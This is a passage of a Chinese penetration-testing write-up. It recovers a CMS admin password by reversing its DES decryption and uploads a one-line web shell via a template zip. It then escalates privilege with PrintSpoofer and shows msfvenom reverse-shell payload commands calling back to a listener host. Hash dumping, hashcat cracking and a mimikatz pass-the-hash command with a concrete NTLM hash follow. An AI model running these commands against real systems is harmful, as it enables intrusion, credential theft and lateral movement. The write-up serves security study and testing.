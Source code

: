 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-c23454e01076552c34c69dab8a36c525.png)

然后我们根据网上所下载的原理分析出其登录时的密码加密流程：  
先看FrameworkLogin类的Submit\_Onclick()方法，流程很简单先判断验证码，然后把用户名和密码传入AdminManager.Authticate：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-dcb84eb36a83b9e6af6c5016f312580b.png)  
继续跟入AdminManager.Authticate，调用了AdministratorDAO.ValidateUser()验证：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-b35eca83ff36b21cef972baa8a118714.png)  
继续跟入AdministratorDAO.ValidateUser()的实现，函数先根据用户名找到用户的信息，根据数据库中用户的密码与输入的密码调用checkpassword()函数进行比对：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-2dffd139e67dd1b4e5af96e625a94fe0.png)  
把数据库中的密码和salt传入DecodePassword()进行相应的解密：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-9ec2b952f614797e7e8e5ad14a03caf9.png)  
DecodePassword()函数中调用的是系统库的des解密：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-c6c1c03ad8952c11cc3e29140870064a.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-84f342bb0cfe3b1d39bbebd2111fef71.png)  
我们了解了相关的解密流程，就可以自己编写相关的解密工具去解密前面注入得到的密码为admin5566。

我们使用密码登入后台，将一句话打包为zip并在站点模板里进行上传，并使用菜刀连接：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-95c98b91b6f251a8284b2334f62fddb1.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-1dfe052ee0a87537d8566c9b67917776.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-c0980d1460544a910cffd289e53eef3e.png)

可见SeImpersonatePrivilege是已启用的，当我们具有了SeAssignPrimaryToken或SeImpersonate特权，那么就意味着具有了SYSTEM的权限。我们可以通过上述这两个特权，在其他用户的上下文中运行代码，甚至创建新的进程。拥有SeImpersonatePrivilege特权，就可以调用CreateProcessWithToken()；拥有SeAssignPrimaryTokenPrivilege特权，就可以调用CreateProcessAsUser()。而PrintSpoofer就是这样的一款开源工具：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-f4a5d58799d9fbde7fedb3acd9e118b6.png)  
同时我们也可以通过net start查看当前计算机开启了哪些服务，根据服务名进行判断是否对后续提权有帮助的。

## 7.3 内网渗透

我们使用msf生成相关后门，利用PrintSpoofer执行后门：  
msfvenom -p windows/meterpreter/reverse\_http lhost=192.168.202.180 lport=22222 -f exe -o h4.exe //生成exe  
use exploit/multi/handler //建立监听  
set payload windows/meterpreter/reverse\_http  
set lport 22222  
set lhost 192.168.202.180  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-77a974b58013d75b4ef8ff86021666d5.png)  
因为目标机器是windows server 2016获取不到明文密码，我们使用msf中自带模块run post/windows/gather/smart\_hashdump，把hash dump出来  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-b8cba9711dd7cafbf48c9b194863b365.png)  
当我们拿到hash后，可以使用hashcat进行hash值得爆破，  
hashcat -a 0 -m 1000 hash.txt rockyou.txt --force  
\-a 0 爆破模式为字典模式  
\-m 是指定哈希类型  
hash.txt 是 ntml  
rockyou.txt 是字典  
也可以使用Hash传递登录RDP远程桌面，  
Sekurlsa::pth /user:Administrator /domain: 192.168.202.183 /ntlm:fac5d668099409cb6fa223a32ea493b6 “/run:mstsc.exe /restrictedadmin”  
又可以使用hash建立ipc连接。
